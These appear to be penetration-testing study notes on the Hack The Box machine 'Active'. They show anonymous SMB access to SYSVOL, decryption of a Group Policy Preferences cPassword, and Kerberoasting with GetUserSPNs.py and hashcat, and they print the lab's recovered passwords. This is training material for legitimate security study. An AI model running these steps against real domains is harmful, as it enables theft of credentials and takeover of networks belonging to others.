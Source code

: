 # cPassword / GPP Attacks

## GPP (AKA MS14-025)
Group Policy Preferences allow admins to create policies using embedded credentials

These credentials were encrypted and placed in an XML document and were stored in this type called "cPassword"

cPassword was encrypted but key was accidentally released (therefore we can decrypt the credentials)

This was patched in MS14-025 but doesn't prevent issues with previous us

If an admin has stores a GPP before the patch was implemented then this will still display a credential to us 

Does not come often but still a problem (eg. for 2012 Servers)

How to check for this: msf smb_enum_gpp module

Instead of the lab, we will test this on HTB (machine '**Active**')

## Hacking Active

```
sudo nmap -T5 10.10.10.100
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/35eb8bd9cd204c31ba01aaae74fec8d6.png?raw=true)

When we scan against a DC we expect to see something like port 53 domain open, and that could be a router as well, but we also expect to see 88 (kerberos) open, as well as lpad (389) and ldapssl (636), so it seems it is a DC

On top of this, we have 445 open (microsoft-ds). The attack involves utilising SMB so we will try and found out more for that more.
Usually in SMB there are SYSVOL folders

```
sudo smbclient -L \\\\10.10.10.100\\
```

SYSVOL works by storing the groups.xml file. That is where we find the cPassword. This is were the GPP comes into play. 

After trying to log in, we find we can anonymously access the Replication folder. From there do 'prompt off'

```
sudo smbclient \\\\10.10.10.100\\Replication
```
```
smb: \> prompt off
```
> just tells it to not prompt us when we download files

```
smb: \> recurse on
```
> it will download all the files we tell it to


![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/19ff08052d7b4b74bc93fe474e8d48df.png?raw=true)

We `ls` to see the different files, we see that the `Groups.xml` file is there

We can get all files by doing: `smb: \> mget *`

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/5783fe89bd094a63a03bea65b0f616f6.png?raw=true)

We open the Groups.xml file and see that we have the cPassword which we can now decrypt. We also have active.htb which is the domain name and SVC_TGS, seems this is the TGS account (active.htb\SVC_TGT)

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/ed35cd50bc4c4961b15631db1f14759b.png?raw=true)

Copy the cPassword and use gpp decrypt:
```
gpp-decrypt ekdfaknjfd...sadfh
```

We get the password 

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/626012c812894f278d2aafd967eb82a5.png?raw=true)

Now we have both the username active.htb\svc_tgs and their password GPPstillStandingStrong2k18


Kerberoasting applicable!!!

I ran
```
sudo GetUserSPNs.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

Got the krb5tgs (OF course!! it is a server!!) and decrypted it with hashcat. Got Administrator password: Ticketmaster1968

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/63e33ab5194a4abfb7dc7165c574a87a.png?raw=true)

Run on msfconsole:
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/49a691e5096e479da734a45c47d4e5f7.png?raw=true)

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/c0fe4b5f44cb4003a09d6d9963aa7a1f.png?raw=true)






